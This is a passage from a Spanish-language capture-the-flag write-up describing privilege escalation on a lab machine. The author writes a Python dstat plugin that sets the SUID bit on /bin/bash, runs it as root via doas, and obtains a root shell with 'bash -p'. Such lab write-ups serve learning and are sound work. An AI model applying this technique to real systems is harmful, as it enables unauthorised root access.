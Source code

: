 Ya tenemos la bandera de usuario.

## Elevar Privilegios

Ahora solo tendríamos que elevar los privilegios.

Listamos el contenido de la siguiente ruta:
```bash
player@soccer:~$ ls -la /usr/local/share/dstat
total 8
drwxrwx--- 2 root player 4096 Mar 14 16:21 .
drwxr-xr-x 6 root root   4096 Nov 17 09:16 ..
```

Vemos que tenemos capacidad de escritura en la ruta "share/dstat", donde se almacenan los plugins.

Lo que vamos a hacer es crear un archivo en Python, y luego ejecutarlo como si fuera un plugin, ya que tenemos permisos en esta ruta.

```bash
echo 'import os;os.system("chmod u+s /bin/bash")' > dstat_privesc.py
```

```bash
doas -u root /usr/bin/dstat --privesc &>/dev/null
```
Ahora con esto, solo tenemos que ir a bash con el parámetro "-p".

```bash
bash -p
```
ya tenemos la root flag.

```bash
bash-5.0# ls /root/root.txt
/root/root.txt
bash-5.0# 
```